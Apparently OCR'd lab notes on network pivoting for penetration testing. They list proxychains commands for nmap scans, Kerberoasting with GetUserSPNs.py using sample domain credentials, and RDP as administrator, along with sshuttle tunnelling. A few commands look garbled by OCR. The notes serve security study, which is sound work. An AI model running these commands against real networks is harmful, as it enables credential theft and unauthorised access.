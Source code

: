 -   Proxychains nmap -88 10.10.10.225

    -   If you know something is there but it won\'t connect try -sT at the end for TCP connect scan

    -   This is running nmap command through our proxychains setup

-   Proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.225 -request

    -   Kerberoasting through proxychains

-   Proxychains xfreerdp /u:administrator /p:\'Hacker321!\' /v:10.10.10.225

    -   RDP through proxychains

 

-   Proxychains Firefox can run Firefox through proxychains just make sure no Firefox open already

 

 

-   Sshuttle -r root@10.10.155.5 10.10.10.0/24 -ssh=cmd \"ssh -I pivot\"

    -   Sshuttle example command

    -   Can run commands without having to type proxychains everytime just make sure tab with sshuttle running stays open to maintain connection.

 

 

-   Chisel is another tool to consider
